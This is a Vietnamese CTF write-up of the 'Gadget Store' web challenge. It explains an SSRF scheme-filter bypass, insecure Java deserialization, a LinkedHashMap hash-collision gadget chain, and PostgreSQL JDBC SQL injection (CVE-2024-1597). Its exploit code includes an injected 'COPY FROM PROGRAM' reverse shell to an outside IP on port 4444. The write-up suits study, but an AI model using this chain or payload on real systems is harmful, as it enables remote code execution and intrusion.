 +++
date = '2025-09-26T21:00:00+07:00'
draft = false
title = 'Gadget Store'
description = 'Phân tích nhanh gadget chain trong challenge Gadget Store (Smart Banking 6th)'
tags = ['ctf', 'java', 'deserialize', 'gadget chain']
+++

# Gadget Store

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

# Tóm tắt

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Soluction

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.

![Điều kiện khai thác CVE-2024-1597](images/image.png)

Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```java
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit

```java
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.

![image](images/image-1.png)

Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.

![alt text](images/image-2.png)

Method `hashCode()` của entry (`LinkedHashMap$Entry`)

![alt text](images/image-3.png)

Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng "xa tận chân trời mà gần ngay trước mắt".